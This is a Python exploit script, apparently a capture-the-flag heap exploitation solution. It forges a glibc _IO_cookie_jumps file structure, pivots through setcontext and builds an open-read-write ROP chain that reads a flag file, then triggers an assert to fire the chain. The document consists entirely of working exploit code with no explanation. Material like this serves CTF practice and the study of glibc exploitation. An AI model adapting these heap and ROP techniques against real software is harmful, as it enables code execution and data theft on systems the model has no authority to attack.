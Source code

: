 ```python
payload = payload.ljust(0xc8,"\x00")
payload += p64(libc_base + libc.sym['_IO_cookie_jumps']+0x40)
payload += p64(heap_base+0x10) #chunk 0->rdi
payload += p64(0)
payload += p64(ROL(gadget^(heap_base+0x1120),0x11))
edit(2,0xe8,payload)
sendit()
#rdi->rdx
payload = p64(0)#rdi
payload += p64(heap_base + 0x1120+0x10)#rdx->chunk 5
edit(0,0x10,payload)
sendit()
#rdx->setcontext
payload = p64(0)*3 + "./flag\x00\x00"
payload += p64(setcontex61)#call [rdx+0x20]
payload = payload.ljust(0x68,"\x00")
payload += p64(heap_base + 0x1120+0x10+0x18)#rdi->./flag
payload += p64(0)#rsi->0
payload = payload.ljust(0x88,"\x00")
payload += p64(0x100)#rdx->0
payload = payload.ljust(0xa0)
payload += p64(heap_base+0x430+0x10)#rsp->chunk 1
payload += p64(ret)#rcx->ret
edit(5,0xb0,payload)
sendit()
#orw chain
payload = p64(pop_rax)
payload += p64(2)
payload += p64(syscall)#open
payload += p64(pop_rax)
payload += p64(0)
payload += p64(pop_rdi)
payload += p64(3)
payload += p64(pop_rsi)
payload += p64(heap_base + 0x200)
payload += p64(syscall)#read
payload += p64(pop_rax)
payload += p64(1)
payload += p64(pop_rdi)
payload += p64(1)
payload += p64(pop_rsi)
payload += p64(heap_base + 0x200)
payload += p64(syscall)#write
edit(1,17*8,payload)
sendit()

#trigger assert
add(11,0x500)
sendit()

p.interactive()
```
